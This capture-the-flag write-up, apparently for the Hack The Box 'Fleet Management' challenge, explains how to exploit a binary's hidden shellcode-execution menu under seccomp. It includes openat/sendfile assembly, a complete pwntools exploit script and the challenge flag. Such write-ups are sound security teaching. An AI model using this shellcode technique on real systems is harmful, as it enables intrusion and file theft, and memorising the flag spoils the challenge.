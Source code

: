 # Fleet Management
> Write-up author: jon-brandy
## DESCRIPTION:
Reading through an Underground Intergalactic hacking forum Bonnie stumbles upon a post talking about a backdoor in the Gold Fang’s Spaceship Fleet Management System. 
There is a note about a twist added by the author to prevent anyone from using the backdoor. 
Will Bonnie achieve to gain access to Gold Fang’s internal network and retrieve precious documents?
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/01e498a8-ad99-4299-8d88-13f78a1cc1d6)


> BINARY PROTECTIONS

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/2de5a421-f79f-4f92-ae29-8249a21a1476)


2. After decompiled the binary, it looks like there's a hidden menu which calls the **beta_feature()** function.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/1ead0cbe-4f84-4235-ad05-5931745906c3)


3. There's a chance we can do shellcode injection even though the NX are disabled.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/c624695a-1467-4a47-88fd-cc9bf0dcaa64)


4. But the problem is, we have `seccomp()`. (`skid_check()`)

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/8e136aaf-b7b8-4b49-9251-7b0c2395b8c6)


5. To be precise what are the seccomp applied, we can run:

```
sudo seccomp-tools dump ./fleet_management
```

6. Then open menu number 9 and input random strings.

> RESULT

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/f852dc59-3304-43c6-9618-4abd9788615b)


7. The interesting part here, the binary using **openat()** which is more secure than **open()**, it does took me a while to solved this.
8. Since there are seccomp, hence the objective here is to cat the flag rather spawn the shell.
9. To do that we can utilize `sendfile` & `openat`.
10. Here are the asm code we want to inject:

```asm
xor rdx, rdx ; set rdi to 0
push rdx ; push it to the stack
mov rax, 0x7478742e67616c66 ; stores flag.txt
push rax ; push it to the stack
mov rsi, rsp ; move what's on the stack to rsi(set filename address to stack address)
mov rdi, -100 ; set rdi as file descriptor (fd) pointing to AT_FDCWD
mov rax, 257 ; do the sys_openat()
syscall

xor rdi, rdi ; set rdi to 0
xor rdx, rdx ; set rdx to 0
mov rsi, rax ; move rax, rsi (set file descriptor [fd] to openat() result
mov r10, 0x100 ; set length to read the flag.txt
mov rax, 40 ; do the sys_sendfile()
syscall
```

11. Here's the full script:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './fleet_management'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

sh.sendlineafter(b'do? ', b'9')

shell = """
xor rdx, rdx
push rdx
mov rax, 0x7478742e67616c66
push rax
mov rsi, rsp
mov rdi, -100
mov rax, 257
syscall

xor rdi, rdi
xor rdx, rdx
mov rsi, rax
mov r10, 0x100
mov rax, 40
syscall
"""
shellcode = asm(shell)
sh.sendline(shellcode)

sh.interactive()
```

> RUN SCRIPT REMOTELY

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/24937d66-919f-45fc-aeaa-c7c8b9928d23)


12. Got the flag!

## FLAG
```
HTB{sh3llc0d3_45_4_b4ckd00r}
```
